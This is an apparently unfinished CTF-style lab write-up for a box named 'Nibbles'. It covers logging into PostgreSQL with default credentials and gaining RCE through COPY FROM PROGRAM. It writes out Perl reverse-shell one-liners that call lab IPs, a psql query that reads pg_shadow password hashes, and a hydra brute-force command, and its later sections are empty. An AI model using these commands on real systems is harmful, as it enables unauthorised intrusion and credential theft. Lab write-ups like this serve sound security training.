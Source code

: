 # Nibbles Writeup

Name: Nibbles
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

- [[Nibbles-Notes.md]]
- [[Nibbles-CMD-by-CMDs.md]]

![](nightmare.jpg)
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


`postgres : postgres` default password and username
![](postgrespostgres.png)

[0xsyr0](https://github.com/0xsyr0/OSCP#postgresql) :
```sql

psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

![](notables.png)

But we are super user..
![](superdefaultuser.png)

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

![](rcepostgres.png)

```
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.166:5432");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

`multi/postgres/postgres_copy_from_program_cmd_exec` module from metasploit. But ... similarly no shell
![](nomsfshell.png)

![](postsqlssh.png)

We can get the local.txt from reading it, but we cannot execute or read files with any characters that break postsql

No password within 8901 of rockyou.txt
```
hydra -v -V -u -l wilson -P /usr/share/wordlists/rockyou.txt -t 10 192.168.182.47 ftp
```

![](nopythonshell.png)

No `archive_mode`
![](archivemodeno.png)

Even though the user in passwd does have defined shell
![](noshell.png)

The service does not:
![](withshell.png)

https://github.com/b4keSn4ke/CVE-2019-9193

## Exploit

## Foothold

## PrivEsc

## Beyond Root



